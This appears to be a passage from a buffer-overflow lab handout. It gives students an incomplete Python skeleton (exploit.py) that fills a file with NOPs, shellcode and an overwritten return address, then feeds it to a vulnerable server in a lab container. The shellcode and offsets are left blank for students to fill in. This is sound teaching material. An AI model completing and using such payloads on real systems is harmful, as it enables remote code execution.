 \subsection{Writing Exploit Code and Launching Attack} 

To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside a file (we will use 
\texttt{badfile} as the file name in this document). 
We will use a Python program to do that.
We provide a skeleton program called \texttt{exploit.py}, which
is included in the lab setup file. 
The code is incomplete, and students need to replace some of the essential 
values in the code. 


\newcommand{\needtochange}{\ding{73} Need to change \ding{73}}


\begin{lstlisting}[language=python, caption={The skeleton exploit code (\texttt{exploit.py})}]
#!/usr/bin/python3
import sys

# You can copy and paste the shellcode from Task 1
shellcode = (
  ""                     # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start =  0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and save it somewhere in the payload
ret    = 0xAABBCCDD      # (*@\needtochange@*)
offset = 0               # (*@\needtochange@*)

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then feed it to
the vulnerable server. If your exploit is implemented correctly, the 
command you put inside your shellcode will be executed. If your 
command generates some outputs, you should be able to see
them from the container window. Please provide proofs to show that you
can successfully get the vulnerable server to run 
your commands.

